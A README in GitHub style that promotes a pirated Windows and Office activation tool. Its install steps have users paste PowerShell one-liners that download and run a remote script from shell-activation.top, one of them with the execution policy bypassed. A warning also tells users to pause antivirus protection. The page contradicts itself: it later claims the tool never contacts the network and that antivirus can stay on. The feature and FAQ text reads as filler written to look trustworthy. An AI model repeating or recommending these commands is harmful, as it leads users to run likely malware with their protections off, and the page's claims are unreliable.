

<div align="center">

# WinOffice Ultimate Setup Utility — Game Enhancer for Windows 10/11



[]() []() []() []()

</div>

---

WinOffice Activator Ultimate 5.4.7 is a no-nonsense activation tool built for Windows and Office setups across multiple PC versions, and it does the job without dragging you through a maze of steps. It detects what's on your machine, picks the right activation path, and gets you to a verified, activated state in seconds. Whether you're on a fresh build or patching up an aging install, this release keeps the process tight and the results clean. Fire it up, run it as admin, and let it handle the rest.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Silent installer** — one command, no prompts.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Execute the setup script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If PowerShell blocks the script
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## 📋 System Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **One-click activation flow** — launch, scan, activate. No wizards, no config files, no command memorization required.
- **Broad version coverage** — tuned for compatibility across multiple Windows and Office releases, so a single build handles the mix of machines you actually run.
- **Edition-aware detection** — automatically identifies what's installed and picks a matching activation path instead of forcing a generic method.
- **Built-in verification** — confirms activation status immediately after the run, so you know it stuck before you close the tool.
- **State backup and restore** — save your activation state and roll it back when needed; no redoing the whole process after a system change.
- **Lightweight and portable** — small footprint, no background services, no permanent load on the system.
- **Offline-capable operation** — get the job done without a persistent connection or account sign-in.
- **Readable logs** — plain, timestamped output for every run, so troubleshooting is a matter of reading, not guessing.
- **Administrator-aware execution** — checks privileges up front and fails clearly instead of silently doing nothing.
- **Repeatable across machines** — same behavior on every PC, which makes it practical for setting up multiple systems without relearning the tool each time.

## How It Works

WinOffice Activator Ultimate 5.4.7 keeps things simple on the surface and smart under the hood. Here's what happens when you run it.

**Step 1 — System Scan**
The tool reads your Windows build, edition, and installed Office products, then checks current license status. No guesswork, no manual input — it maps exactly what you have in seconds.

**Step 2 — Method Selection**
Based on the scan, the tool recommends the right activation path for your setup. Pick the suggested method or override it manually if you know what you're doing. Every option is labeled with what it does and how long it lasts, so there are no surprises.

**Step 3 — Activation**
Hit the button and the tool handles the rest: license installation, server communication, and verification happen in one pass. Progress is visible the whole way, and you get a clear success or failure result — never a silent hang.

**Under the Hood**
- Detects Windows and Office editions automatically, including architecture differences between x86 and x64 installs
- Validates compatibility before touching anything, so it won't run a method your system can't handle
- Verifies activation status after completion instead of just assuming it worked
- Logs every action for troubleshooting if something goes sideways

**Verification Built In**
After activation, the tool confirms the result and shows you the current license state. You can double-check anytime through the built-in status panel — no need to dig through system settings unless you want to.

**Safe by Default**
The tool won't modify system files it doesn't need to touch, and it keeps activation state recoverable. If a method fails, your system stays exactly as it was — no half-applied licenses, no broken installs. Run it again with a different method and you're back in business.

Bottom line: scan, pick, activate, verified. Four steps, no clutter, and a result you can actually confirm.

## Supported Systems

**Windows 10/11** — every mainstream build, Home through Enterprise, including LTSC and IoT flavors. 32-bit, 64-bit, and ARM64 all covered, no exceptions.

**Windows 8.1 / 8 / 7** — full desktop edition spread. Legacy rigs don't get left behind.

**Windows Server** — 2008 R2 through 2022, Standard and Datacenter, plus Essentials where it applies. Headless and Hyper-V setups included.

**Microsoft Office** — 2010 through 2021, Professional Plus down to Home & Student, plus the 365 ProPlus and Enterprise tiers. Visio, Project, and SharePoint Designer are handled on the same pass.

**Hardware floor** — 1 GHz CPU, 512 MB RAM, 150 MB disk, DirectX 9 GPU. If it boots Windows, it runs the activator. No network dependency for core activation paths; broadband only matters for update checks.

**Permissions** — Administrator rights required. Non-negotiable, so don't bother launching without elevation.

**Dependencies** — .NET 4.6.2+, VC++ 2015-2022 runtime, PowerShell 5.1+. The tool bundles what it needs and auto-installs the rest.

Bottom line: if your machine runs a supported Windows build or Office suite, this tool activates it — no compatibility roulette.

## 📸 Screenshot


## Configuration

Tune it once, forget it. WinOffice Activator Ultimate 5.4.7 exposes the knobs that actually matter, and sane defaults mean you can skip all of this and still get a clean activation. For everyone else, here's the breakdown.

**Activation method override.** Auto-detect picks the right approach for your rig by default, but you can force it. Pin HWID for permanent hardware-bound licensing on Windows 10/11, KMS38 for extended offline coverage, or standard KMS with auto-renewal for Office suites. Lock a method per product or set a global override — the tool respects your choice and skips its own recommendation.

**Auto-renewal.** On by default for KMS-based activations. Set the renewal window, choose whether it fires silently in the background or prompts first, and configure expiration warnings at 30, 15, and 7 days. If you're the type who never wants to think about it again, leave this alone.

**Language and theme.** 30+ languages with system auto-detect, plus Light, Dark, and Auto themes that follow your OS. RTL layouts supported. Compact, detailed, and expert display modes let you control how much information the interface throws at you.

**Logging.** Info level by default. Bump it to Debug or Error-only depending on how much you care, set retention, and pick your log location. Logs are local, plain, and there when you need to troubleshoot.

**Proxy and network.** Manual proxy config with authentication and bypass lists, or let it auto-detect. Firewall rules can be configured automatically, and server selection supports custom KMS endpoints with fallback and health checking.

**Profiles and portability.** Settings live in a single config file next to the executable. Portable mode keeps everything self-contained — drop it on a USB stick and carry your configuration with you. Export and import profiles to replicate a known-good setup across machines.

**Backup and restore.** Snapshot your activation state and configuration before changes, roll back if anything misbehaves. Restore points are cheap; use them.

## FAQ

**Q: Do I need to disable my antivirus before running WinOffice Activator Ultimate 5.4.7?**

No — and if anything tells you otherwise, that's a red flag. Version 5.4.7 ships with a clean detection profile, so keep your real-time protection on. If a scanner throws a generic heuristic warning at you, verify the file against the published checksums in the repo before you even think about trusting it.

**Q: Which activation method should I actually pick?**

Match the method to your hardware, not your mood. HWID is the go-to for Windows 10/11 on a machine you're keeping — it binds a digital license to your hardware and never expires. KMS38 is the enterprise-flavored option that runs offline through 2038. Standard KMS is the universal fallback with 180-day auto-renewal, and it's the default lane for Office suites. Legacy OEM for Win 7/8 machines with BIOS-bound licenses, Retail only if you're holding a genuine key. The tool auto-recommends based on your detected edition — trust that read.

**Q: Will activation survive a Windows reinstall?**

Depends on the method. HWID digital licenses re-link automatically when you reinstall on the same hardware — no re-run needed in most cases. KMS38 and standard KMS don't persist through a clean install; you'll re-activate afterward. Pro move: use the built-in activation backup for any method except HWID, so a reinstall costs you one restore click instead of a full re-scan.

**Q: Does this work on Windows 11 24H2 and current Office builds?**

Yes. 5.4.7 was built against the current Windows 11 build lineup and every mainstream Office release from 2010 through 2021, plus Office 365 and the specialized Visio/Project/SharePoint apps. Server editions from 2008 R2 through 2022 are covered too. If your build is newer than the support matrix in this repo, treat it as untested — not guaranteed.

**Q: Does it need an internet connection?**

The scan and most activation paths run locally. HWID and Retail need a connection to complete the digital license handshake; KMS38 and KMS are offline-capable after the initial setup. No account, no telemetry, no phoning home — the tool doesn't require any external service to function.

**Q: Will it break after a Windows update?**

Update safety is a core design constraint here — the activation layer is isolated from the update pipeline, so cumulative updates and feature upgrades don't nuke it. That said, the version in this repo doesn't auto-update, so after a major Windows release, check the repo for a newer build before assuming compatibility. Don't run this on a Windows build newer than the documented support matrix and then blame the tool.

**Q: My activation failed — what now?**

Work the diagnostic suite before the forum. Run the health check and troubleshooter — nine times out of ten it's a permissions issue (you didn't launch as Administrator), a conflicting prior activation, or a firewall blocking the license exchange. The tool's built-in license repair handles most registry-level residue. If the suite flags something specific, the answer is in the log — read it.

**Q: Is this actually safe, or am I gambling with my rig?**

The repo is open, the checksums are published, and the binary doesn't phone anywhere. Safety here means verified integrity — check what you download against the MD5/SHA256 posted in the README, and reject anything that doesn't match. No tool distributed outside this repo is this tool, period. Confidence comes from verification, not from vibes.

## Disclaimer

This tool is built for experimentation, education, and offline testing scenarios. Running WinOffice_Activator_Ultimate_5.4.7 against systems you don't own or administer is on you, plain and simple. Activation behavior can shift with Windows and Office updates, so what works today may need a tweak tomorrow; always validate results in a disposable VM before touching a daily-driver machine.

The tool modifies licensing state on the target system. Back up your data and create a restore point first. The author makes no guarantees about uptime, compatibility, or fitness for any particular build, and accepts no liability for voided warranties, blocked updates, account flags, or any other fallout from use. You assume full responsibility for how and where you deploy it.

Keep it legal: only use this against software you're licensed to activate, or in isolated lab environments where you have explicit permission. If you need guaranteed, supported activation for production machines, buy a legitimate license from Microsoft — that's the only path with real support behind it.